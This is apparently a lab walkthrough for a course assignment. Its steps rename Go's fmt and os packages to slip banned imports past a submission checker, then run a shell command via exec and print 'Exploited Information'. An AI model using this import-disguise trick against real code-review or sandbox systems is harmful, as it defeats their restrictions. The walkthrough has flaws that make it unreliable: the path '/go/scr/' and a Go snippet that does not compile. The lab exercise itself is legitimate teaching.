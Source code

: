 -  Copy entire Go Directory: ```cp -r /usr/local/go ./go```
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image20.png){width=50%}
-  Change Directory into: ```cd /go/scr/``` 
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image21.png){width=50%}
-  Copy/rename fmt file: ```cp -r ./fmt ./lnout```
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image22.png){width=50%}
-  Copy/rename os file:  ```cp -r ./os ./so```
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image23.png){width=50%}
-  Change Directory into:```cd $HOME```
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image18.png){width=50%}
-  Change Directory into:```cd ivy-stencil```
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image19.png){width=50%}
-  Within ```sol.go``` add the following package: ```so/exec```
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image24.png){width=50%}
-  Within ```sol.go``` add the following renamed packages: ```so & lnout```
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image26.png){width=50%}
-  Add the following line of go code to execute exec in ```sol.go```:
``` 
	out, err := exec.Command("cs666_whoami").Output()
	if err != nil
	{
		panic(err)
	}
	fmt.Printf("Exploited Information: %s",out)
```
 - Run the command: ```make```
 - Run the command: ```cs666_handin ivy```
 